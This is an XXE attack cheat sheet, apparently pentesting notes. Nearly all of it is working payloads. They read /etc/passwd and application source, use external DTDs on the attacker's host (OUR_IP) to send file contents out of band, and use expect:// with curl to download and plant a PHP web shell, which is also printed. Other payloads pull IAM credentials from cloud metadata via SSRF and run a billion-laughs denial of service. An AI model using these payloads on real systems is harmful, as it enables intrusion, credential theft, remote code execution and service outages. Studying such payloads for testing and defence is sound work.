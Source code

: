 
# XXE Attacks 


## Reading Sensitive Files
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

**Tip:** In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.


### Read file contains some of XML's special characters

#### PHP wrapper 

```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

#### CDATA Mehtod


```
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
- this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.
- To bypass this limitation, we can utilize XML Parameter Entities, a special type of entity that starts with a % character and can only be used within the DTD.
- What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined,as follows:


- payload 
```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
<email>&joined;</email> 
```
- xxx.dtd
```
<!ENTITY joined "%begin;%file;%end;">
```


## Blind XXE 

#### Error Based XXE
- payload 
 ```
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
- xxx.dtd
```
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

#### Out-of-band Data Exfiltration

- payload 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
- xxe.dtd
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```


## RCE 

###  look for `ssh` keys

### PHP Wrappers
#### php://filter 
- https://github.com/synacktiv/php_filter_chain_generator
#### php://expect 
- expect://id  (output may break xml syntax  , we may have not access to the output)  

-  payload   (best practice )
```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
- shell.php file 
```php
<?php system($_REQUEST["cmd"]);?>
```



## SSRF 
 - get API metadata 
```
<!DOCTYPE test [ 
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> 
]>
```



## DOS Attack
```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

